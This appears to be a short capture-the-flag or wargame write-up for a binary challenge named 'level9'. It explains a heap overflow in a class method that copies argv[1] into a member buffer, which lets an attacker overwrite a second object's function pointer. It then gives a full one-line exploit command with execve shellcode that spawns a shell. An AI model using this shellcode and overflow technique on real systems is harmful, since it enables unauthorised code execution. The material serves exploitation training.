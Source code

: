 this code allocates two instances of a class, and that class has a method that copies a string into it's member `char *`. The program gives the `argv[1]` as an argument to that method, which allows us to overflow the member variable and to write an address of a shellcode into the second instance member variable which then gets used as a function pointer on the next line.

```bash
./level9 `python -c 'print "\x10\xa0\x04\x08\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 83 + "\x0c\xa0\x04\x08"'`
```